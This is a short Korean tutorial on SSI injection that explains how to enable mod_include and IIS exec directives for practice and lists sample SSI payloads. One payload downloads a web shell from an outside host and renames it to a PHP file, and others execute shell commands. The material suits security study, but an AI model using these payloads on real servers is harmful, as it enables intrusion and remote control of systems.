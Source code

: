 ### SSI Injection?

Server-Side Includes (SSI) Injection 로 과거 서버 환경 정보 활용에 사용했던 기능이다.

현재는 더 좋은 명령어 들이 존재하기 때문에 거의 사용되지 않는다.

따라서 기본 설정은 대부분 비활성화 되어 있고, 일부러 활성화 시키지 않는 이상 실습 조차 어렵다.

### httpd.conf 를 LoadModule 로 사용하는 설정의 경우

LoadModule include_module modules/mod_include.so

의 #을 확인한다.(주석처리(#)가 있다면 제거)

### apache2의 mods-available 폴더를 사용하는 환경인 경우

ln -s /etc/apache2/mods-available/include.load /etc/apache2/mods-enabled

### httpd.conf 또는 /etc/apache2/sites-available/000-default 파일 편집

<pre><code>
＜Directory>
    Options FollowSymLinks Includes
    AllowOverride All
    Order allow,deny
    Allow from all
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
＜/Directory>
</code></pre>

### 사용 가능 구문

<pre><code>
＜!--#exec cmd="ls" -->
＜!--#exec cmd="cd /root/dir/">
＜!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
＜!--#exec cmd="dir" -->
＜!--#exec cmd="cd C:\admin\dir">
＜!--#config errmsg="File not found, informs users and password"-->
＜!--#echo var="DOCUMENT_NAME" -->
＜!--#echo var="DOCUMENT_URI" -->
＜!--#config timefmt="A %B %d %Y %r"-->
＜!--#fsize file="ssi.shtml" -->
＜!--#include file=”UUUUUUUU...UU”-->
</code></pre>

### The CMD option is not enabled for #EXEC calls

IIS에서

C:\Windows\System32\inetsrv>appcmd.exe set config "www.도메인.co.kr" -section:system.webServer/serverSideInclude /ssiExecDisable:"**True/False**" /commit:apphost

명령어를 이용해 명령 실행 활성화/비활성화를 설정할 수 있다.(재부팅 불필요)

#EXEC calls have been disabled for this virtual path

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W3SVC\Parameters key에 SSIEnableCmdDirective 값을 1로 설정한다.
